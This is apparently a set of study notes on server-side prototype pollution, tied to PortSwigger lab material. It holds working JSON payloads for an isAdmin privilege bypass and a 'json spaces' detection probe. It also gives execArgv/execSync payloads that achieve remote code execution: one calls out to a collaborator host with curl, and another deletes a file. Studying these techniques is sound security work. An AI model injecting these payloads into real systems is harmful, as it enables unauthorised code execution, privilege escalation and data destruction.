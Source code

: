 The application may be performing some filtering on the input, one way to bypass it is by using the constructor:

```json
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```
# Detecting Prototype Pollution without Polluted Property Reflection

There are 3 main techniques:

- Status code override
- JSON spaces override
- Charset override

>[!info]
>https://portswigger.net/web-security/prototype-pollution/server-side#detecting-server-side-prototype-pollution-without-polluted-property-reflection

First, identify prototype pollution source via the JSON spaces technique:

```json
"__proto__":{
	"json spaces":10
}
```

If the prototype pollution payload was successful, you can see a notable difference in the response, while not breaking the application's functionality. Burp Suite has an extension that can help to identify server-side prototype pollution: https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8
# Server-Side Prototype Pollution - RCE and Exfiltration

For payloads - inject these into JSON body of HTTP requests:

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
